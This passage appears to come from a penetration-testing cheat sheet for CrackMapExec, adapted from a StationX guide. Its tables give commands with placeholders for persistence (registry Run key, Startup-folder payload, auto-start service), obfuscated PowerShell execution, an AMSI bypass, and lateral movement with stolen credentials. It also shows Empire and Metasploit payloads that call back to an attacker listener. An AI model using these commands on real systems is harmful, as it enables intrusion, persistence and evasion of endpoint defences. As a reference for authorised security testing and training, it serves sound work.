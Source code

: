 |`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> --x 'reg add HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun /v <name> /t REG_SZ /d "<PAYLOAD>"' <target>`|Persistence: Executes a registry `PAYLOAD` when the user logs in or the system starts up after uploading the `PAYLOAD` to the machine first.|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --put-file <PAYLOAD> "%APPDATA%MicrosoftWindowsStart MenuProgramsStartup<PAYLOAD>"`|Persistence: Drops a `PAYLOAD` in the Windows startup folder executed when the user logs in.|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> --x sc create <service_name> binPath= "<PAYLOAD>" start= auto' <target>`|Persistence: Installs a service on the target system that executes a `PAYLOAD` on start-up after uploading the `PAYLOAD` to the machine first.|

![crackmapexec-post-exploitation-min](https://www.stationx.net/wp-content/uploads/2024/04/6.-crackmapexec-post-exploitation-min.jpg)

_Executing Post-Exploitation Activities With CrackMapExec_

## CrackMapExec Advanced Techniques and Integrations

CrackMapExec has more advanced features. These include the ability to run PowerShell commands and scripts and even obfuscate them. The tool also integrates with other hacking frameworks like [Metasploit](https://www.stationx.net/metasploit-cheat-sheet/) and [C2 frameworks](https://www.stationx.net/what-is-a-c2-framework/) (e.g., [PowerShell Empire](https://www.stationx.net/how-to-use-powershell-empire/)).

|   |   |
|---|---|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> -X <PS_COMMAND> <target>`|Executes a PowerShell command (`PS_COMMAND`) on the systems after successful login.|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> -X <PS_COMMAND> --obfs <target>`|Obfuscates PowerShell scripts/commands ran.|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> -X PS_COMMAND --amsi-bypass <FILE> <target>`|Runs PowerShell scripts and commands with a custom AMSI bypass file (`FILE`). This is a PowerShell file that implements a [AMSI bypass method](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/).|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> -X <PS_COMMAND> --clear-obfsscripts <target>`|Clears all cached obfuscated PowerShell scripts from memory.|
|`crackmapexec <mssql\|smb> -u <USERNAME> -p <PASSWORD> -M empire_exec -o LISTENER=<listener> <target>`|Lateral movement: Logs in to a remote system using a stolen username or password and automatically generates and executes a [PowerShell Empire](https://www.stationx.net/how-to-use-powershell-empire/) launcher that calls back to the specified `<listener>`. This gives you a PowerShell Empire agent on the system|
|`crackmapexec <mssql\|smb> -u <USERNAME> -p <PASSWORD> --local-auth -M met_inject -o LHOST=<attack-machine> LPORT=<listening-port>`|Logs in to a remote system using the stolen username or password and automatically generates and injects [Metasploit](https://www.stationx.net/metasploit-cheat-sheet/) shellcode that calls back to a Metasploit handler using `LHOST` and `LPORT`. This gives you a Metasploit shell on the system.|

![crackmapexec-advanced-technique-powershell-min](https://www.stationx.net/wp-content/uploads/2024/04/7.-crackmapexec-advanced-technique-powershell-min.jpg)

_Executing Obfuscated PowerShell With CrackMapExec_

**Credit:** This information was adapted from an excellent guide on [StationX](https://www.stationx.net/crackmapexec-cheat-sheet/). Be sure to check out the original post for more details.

<iframe width="560" height="315" src="https://www.youtube.com/embed/haBvIG5jHYw?si=1mKpGWyoht089KX_" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

**Credit:** This information was adapted from an excellent guide on [YouTube](https://www.youtube.com/watch?v=haBvIG5jHYw). Be sure to check out the original post for more details.

<iframe width="560" height="315" src="https://www.youtube.com/embed/IY_VyAz3JGA?si=MS3I3EBXXu98fkig" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

**Credit:** This information was adapted from an excellent guide on [YouTube](https://www.youtube.com/watch?v=IY_VyAz3JGA). Be sure to check out the original post for more details.
